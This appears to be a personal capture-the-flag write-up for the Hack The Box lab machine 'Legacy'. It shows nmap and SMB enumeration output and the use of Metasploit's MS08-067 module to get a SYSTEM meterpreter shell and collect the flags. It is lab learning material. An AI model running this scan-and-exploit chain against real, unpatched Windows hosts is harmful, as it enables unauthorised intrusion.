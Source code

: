 # Legacy 10.10.10.4 - Windows

## 00 - Initial Attempt, 05/04/20

__(Successful user & root day-of, number: 001 for both.)__

`nmap -sC -sV -oA legacy -Pn 10.10.10.4`

```shell
thoth@kali:~/Projects/htb-notes/machines/Legacy/dumps$ nmap -sC -sV -Pn 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 20:05 EDT
Nmap scan report for 10.10.10.4
Host is up (0.029s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h26m27s, deviation: 2h07m17s, median: -5h56m28s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:ff:cb (VMware)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-05-05T00:08:46+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.38 seconds
```

#### Initial Ideas and Reactions

 - Windows XP machine
 - port 139 is smb server
  - message signing disabled, guest account, auth level user
 - 445 Windows File Sharing and other MS services
 - 3389 CLOSED ms-wbt-server


Attempted to use `smbclient -L` along with `-U`, `-p`, `-I` etc to try to connect to 139 and 445. No dice. Ran `msfconsole` and `/scanner/smb/smb_version`:

```shell
msf5 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
```

Following along with CyberMentor I `msf5 > search windows/smb` and `use windows/smb/ms08_067_netap`

```powershell
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

From here I was able to navigate to `C:\Documents and Settings\john\Desktop` to find the user flag. And into `Administrator` for the root flag.
